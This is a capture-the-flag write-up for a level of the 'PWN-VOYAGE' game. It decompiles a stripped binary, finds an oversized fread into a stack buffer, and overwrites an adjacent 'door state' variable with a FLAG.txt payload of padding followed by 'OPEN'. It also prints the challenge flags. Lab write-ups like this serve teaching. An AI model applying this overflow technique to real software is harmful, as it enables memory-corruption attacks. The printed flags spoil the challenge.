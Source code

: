 # PWNVOYAGE / GAME / PWN-VOYAGE_L1

Finally, things get more interesting. With the `file` command, we can observe that the binary is stripped. Additionally, we are prompted for a file named **FLAG.txt** containing the flags from the previous level.

```

caigoshinobi@freyja:~$ file ./PWN-VOYAGE_L2
./PWN-VOYAGE_L2: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=cb162e623a468bace4baa7d427caa120424f421b, for GNU/Linux 3.2.0, stripped

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================


------------------------------------------------------
| *FLAG.txt REQUIRED*                                |
|                                                    |
| Create the FLAG.txt file and insert the flags of   |
| the previous levels, one per line.                 |
------------------------------------------------------

```

After creating the required file, we discover that Knight is attempting to break through the Vault door, which is flagged as **CLOSED**.

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now CLOSED

-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

```

We move on to the binary with dogbolt.org and try to make sense of it.

```

__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char v4[304]; // [rsp+10h] [rbp-2D0h] BYREF
  char ptr[265]; // [rsp+140h] [rbp-1A0h] BYREF
  char haystack[135]; // [rsp+249h] [rbp-97h] BYREF
  FILE *v7; // [rsp+2D0h] [rbp-10h]
  FILE *stream; // [rsp+2D8h] [rbp-8h]

  sub_164E();
  strcpy(haystack, "CLOSED");
  stream = fopen("FLAG.txt", "r");
  if ( stream )
  {
    fread(ptr, 1uLL, 0x12CuLL, stream);
    fclose(stream);
    ptr[33] = 0;
    if ( (unsigned int)sub_151D(ptr) )
    {
      printf("-$> You give an almighty shove. The door is now %s\n", haystack);
      if ( strstr(haystack, "OPEN") )
      {
        v7 = fopen("FLAG.txt", "r");
        if ( v7 )
        {
          fread(v4, 1uLL, 0x12CuLL, v7);
          fclose(v7);
          sub_13EA(v4);
          return 0LL;
        }
        else
        {
          sub_14D8();
          return 1LL;
        }
      }
      else
      {
        puts(
          "\n"
          "-$> You are hurled backward by a spell from the ancient gates, compelled    \n"
          "    to retreat a few paces. The curses of defense begin to graze your armor,\n"
          "    slowly dissolving the metal. Yet, the voice of your conscience continues\n"
          "    to echo just one thing: Keep pushing.\n");
        return 1LL;
      }
    }
    else
    {
      return 0LL;
    }
  }
  else
  {
    sub_14D8();
    return 1LL;
  }
}

```

Some now we know that:

- The `haystack` variable is declared and initialized with the value **CLOSED** This variable represents the state of the Vault door.

- The program attempts to open the file named **FLAG.txt** in read mode using `fopen`. If successful, it reads the content of the file into the `ptr` array with `fread`, limited to 300 bytes. Then, it closes the file.

- If the `haystack` contains **OPEN** it proceeds to open the **FLAG.txt** file again, reads its content into the `v4` array, closes the file, and calls the `sub_13EA(v4)` function.

- The `sub_13EA` function takes a hexadecimal string and processes it to obtain the flag. 


We can also note a possible vulnerability in this code, primarily due to the use of `fread`. The reason is that `fread` reads data from the file without checking the size of the data compared to the size of the destination buffer, which can lead to a stack overflow if the read data exceeds the buffer's size.


If indeed we insert some A's inside FLAG.txt:

```

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now AAAAAA


-$> You are hurled backward by a spell from the ancient gates, compelled
    to retreat a few paces. The curses of defense begin to graze your armor,
    slowly dissolving the metal. Yet, the voice of your conscience continues
    to echo just one thing: Keep pushing.

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

It works! So it's possible to insert the string **OPEN** inside the `haystack` variable:

```

caigoshinobi@freyja:~$ cat FLAG.txt
NTRLGC{TH1SH1LLSM3LLSL1K3V1CT0RY}AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAOPEN

caigoshinobi@freyja:~$ ./PWN-VOYAGE_L2

============================================================

 ██▓    ▓█████ ██▒   █▓▓█████  ██▓           ██▓ ██▓
▓██▒    ▓█   ▀▓██░   █▒▓█   ▀ ▓██▒          ▓██▒▓██▒
▒██░    ▒███   ▓██  █▒░▒███   ▒██░          ▒██▒▒██▒
▒██░    ▒▓█  ▄  ▒██ █░░▒▓█  ▄ ▒██░          ░██░░██░
░██████▒░▒████▒  ▒▀█░  ░▒████▒░██████▒      ░██░░██░
░ ▒░▓  ░░░ ▒░ ░  ░ ▐░  ░░ ▒░ ░░ ▒░▓  ░      ░▓  ░▓
░ ░ ▒  ░ ░ ░  ░  ░ ░░   ░ ░  ░░ ░ ▒  ░       ▒ ░ ▒ ░
  ░ ░      ░       ░░     ░     ░ ░          ▒ ░ ▒ ░
====░==░===░==░=====░=====░==░====░==░=======░===░==========
                    ░
You mercilessly annihilate a pair of bloodthirsty undead,
their pitiable forms disintegrating in the face of your
power. However, as you reach the very threshold of the Vault,
a discouraging sight awaits you: The Vault's door is veiled
in an enigmatic magical aura, a barrier challenging anyone
to enter... yet you charge ahead with all your might.

============================================================

-$> Access Granted. Now let's pwn this f*cking door

-$> You give an almighty shove. The door is now OPEN

-$> Flag: NTRLGC{H3LL0B1TCH3S!}

```